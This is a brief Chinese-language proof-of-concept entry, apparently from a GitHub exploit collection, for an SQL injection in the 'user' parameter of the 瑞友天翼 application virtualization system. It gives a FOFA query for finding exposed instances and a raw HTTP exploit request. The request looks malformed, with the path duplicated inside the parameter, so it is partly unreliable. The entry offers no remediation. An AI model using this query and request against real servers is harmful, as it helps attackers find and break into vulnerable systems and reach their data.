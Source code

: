 ## 天翼应用虚拟化系统sql注入漏洞

天翼应用虚拟化系统 user 参数存在sql注入漏洞

## fofa
```
title="瑞友天翼-应用虚拟化系统" 
```

## poc
```
GET /AgentBoard.XGI?user=/AgentBoard.XGI?user=-1&cmd=UserLogin HTTP/1.1
Host: target
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

![image](https://github.com/wy876/POC/assets/139549762/de037448-69f3-4224-a47b-96d64274d0da)
